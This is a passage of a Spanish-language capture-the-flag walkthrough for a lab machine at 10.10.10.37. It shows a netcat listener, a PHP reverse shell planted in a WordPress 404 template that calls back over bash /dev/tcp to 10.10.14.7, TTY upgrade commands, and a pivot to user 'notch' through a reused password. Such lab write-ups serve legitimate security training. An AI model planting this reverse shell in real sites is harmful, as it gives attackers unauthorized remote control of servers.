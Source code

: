 ## Vuln exploit & Gaining Access {-}

### Crear una reverse shell desde la 404 Template {-}

Nos ponemos en escucha con el puerto 443.

```bash
nc -nlvp 443
```

Editamos el fichero 404 Template con una reverse shell en php

```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'");
?>
```

ya podemos ir al url `http://10.10.10.37/?p=404.php` y pa dentro

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### User Pivoting al usuario notch {-}

Miramos si hay reutilisacion de contraseñas 

```bash
su notch 
```

Y con la contraseña encontrada en el ficher `BlockyCore.class` functiona. Y ya podemos ver la flag.